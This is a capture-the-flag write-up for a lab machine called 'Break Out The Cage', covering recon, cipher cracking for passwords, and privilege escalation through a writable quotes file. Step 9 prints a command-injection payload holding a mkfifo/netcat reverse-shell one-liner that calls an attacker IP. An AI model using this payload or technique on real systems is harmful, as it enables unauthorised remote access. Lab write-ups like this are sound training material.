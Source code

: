 # Break Out The Cage

Fun, because Cage is fun :)

## Recon

1. nmap revealed 21, 22 and 80
2. nikto and dirb on the website revealed a few listable folders, including `/scripts` and `/contracts`, which contained nothing (movie contracts in the first instance)
3. ftp allowed anonymous, and contained a single file `dad_tasks`
4. This file was base 64 encoded, and then looked vignere encoded. I broke the latter with https://www.guballa.de/vigenere-solver which revealed the password `namelesstwo`
5. This gave a list of humourous tasks, and what I guessed successfully was the ssh password: `Mydadisghostrideraintthatcoolnocausehesonfirejokes`
6. From the website I knew this user's name was `weston` and so I successfully logged in with that user.

## Shell as Weston

6. Once on the machine, `sudo -l` revealed the user could run `/usr/bin/bees`. This is a shell script that just runs the `wall` command. However, the wall command is not something I can delete or move, by the looks of it.

7. Navigating to the website directory, I found an `/auditions` folder containing an MP3 that obviously contained a spectogram. However, when I ran it through Sonic Visualiser it just gave me the password to the vignere encoding from before :D

8. The other user on the machine was `cage`, so I ran a `find / -user cage 2>/dev/null` and found a folder called `.dad_scripts` under `/opt`. While on the machine I had noticed periodic wall broadcasts, and in here I found a python script running wall against a randomly selected quote from `/opt/.dad_scripts/.files/.quotes`, as `cage`. And the .quotes file was writable :)

9. I overwrote .quotes with the following and waited:

    `echo ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.226.229 4444 >/tmp/f" > .quotes`

## Reverse Shell as Cage

10. Once the shell popped, I navigated to `/home/cage`. In there was a file, `Super_Duper_Checklist` which contained the **user flag**.

11. There was also an `email_backup` directory. Under there were three rather humorous emails, where Cage's agent is revealed to be the root user. There was also a hint to the password, `haiinspsyanileph`

## Finish

12. It took me a while to figure this one out, largely because it failed via my vignere brute forcer (which stops on the first entropically significant key, leading to an incorrect guess). It is a vignere cypher, and the password is `face`, a hint gained from the email where its found which repeats the word a lot (a bit silly). This gives the root password `cageisnotalegend`.

    > as a note, it might be interesting to build a vignere brute forcer. Could brute force character combinations, and check each as a cipher while testing for english words from a word list maybe.

13. After `su root`, inside the root folder is another email backup set, of which the final email gives the **root flag**.
